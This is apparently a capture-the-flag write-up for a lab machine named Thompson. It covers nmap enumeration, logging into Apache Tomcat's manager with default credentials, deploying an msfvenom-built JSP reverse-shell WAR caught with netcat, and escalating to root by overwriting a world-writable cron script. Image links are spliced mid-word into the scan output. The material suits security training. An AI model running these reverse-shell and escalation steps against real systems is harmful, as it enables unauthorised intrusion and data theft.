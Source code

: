 # Bsides Guatemala CTF Thompson boot2root machine
![room logo](assets/Room_Logo.png)  
Simple Boot2Root box  
Find `user.txt` and `root.txt` FTW!!!  

## Enumeration

Tool of choice is `nmap` with superuser privileges

```
Nmap 7.93 scan initiated Sat Oct  1 22:34:17 2022 as: nmap -Pn -sC -sV -vv -oN scans/thompson_init -T4 10.10.192.158
Nmap scan report for 10.10.192.158
Host is up, received user-set (0.23s latency).
Scanned at 2022-10-01 22:34:17 EDT for 31s
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc052481987eb8db0592a6e78eb02111 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDL+0hfJnh2z0jia21xVo/zOSRmzqE/qWyQv1G[..]
|   256 60c840abb009843d46646113fabc1fbe (ECDSA)
| ecdsa-sha2![](assets/Screenshot_Apache_Tomcat_Home.png)
-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBG6CiO2B7Uei2whKgUHjLmGY7dq1uZF[...]
|   256 b5527e9c019b980c73592035ee23f1a5 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIwYtK4oCnQLSoBYAztlgcEsq8FLNL48LyxC2RfxC+33
8009/tcp open  ajp13   syn-ack ttl 61 Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    syn-ack ttl 61 Apache Tomcat 8.5.5
|_http-title: Apache Tomcat/8.5.5
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supporte![](assets/Screenshot_Apache_Tomcat_Home.png)
d Methods: GET HEAD POST
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/local/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct  1 22:34:49 2022 -- 1 IP address (1 host up) scanned in 31.98 seconds
```

## Discovery
![home](assets/Screenshot_Apache_Tomcat_Home.png)


## Exploit

Apache Tomcat running on port 8080, this should be fun.  
Load up the discovered service in a browser with ZAP running to intercept traffic and lo and behold the 
server sends the **STATUS** page as the login prompt is popping up. The contents of the page include a snippet 
revealing default install creds which can be seen below  

![default creds](assets/snip_mgr_status_src.png)  

These creds are valid and I'm logged on to the Tomcat server as an Admin  

![](assets/Screenshot_manager_logon-640x480.png)

This page reveals I can deploy apps from Apache Archive Files aka `WAR` files.  

Will deploy an app to spawn of _reverse shell_ back to my attacker box using a _war file_ generated by 
`msfvenom` and catch that shell with `netcat`.  


	┌──(kali㉿thmkali)-[~/Desktop/THM/room/bsidesgtthompson]
	└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=$MYIP LPORT=4448 -f war > revshell.war 
	Payload size: 1100 bytes
	Final size of war file: 1100 bytes
	
	┌──(kali㉿thmkali)-[~/Desktop/THM/room/bsidesgtthompson]
	└─$ nc -lvnp 4448                
	listening on [any] 4448 ...
	Connect from ...

So we get our shell and find some interesting files in `/home/jack`  
One of the files is our first flag `user.txt`  
Cat that one out for half the points!  
Laying next to `user.txt` is `test.txt` and `id.sh`  
These files are interesting as the contents of `test.txt` is  

	uid=0(root) gid=0(root) groups=0(root)

That looks suspiciously like the root account running the command `id`  

Wonder what's in `/etc/crontab` ?  

Aha! An entry in the system **CRONTAB** to run this `/home/jack/id.sh` once a minute. The file itself currently 
logs it's output to the `test.txt` file.  
But what is great news for us is that `id.sh` is world writeable. iow 
_anyone_ can change the contents of `id.sh`.  Which is exactly what we are going to do.  

```
echo "cat /root/root.txt > test.txt" > id.sh
```

Wait about a minute and cat out the contents of `test.txt` that has `/root/root.txt` echoed into it by the System **CRONJOB**


And that's a wrap!
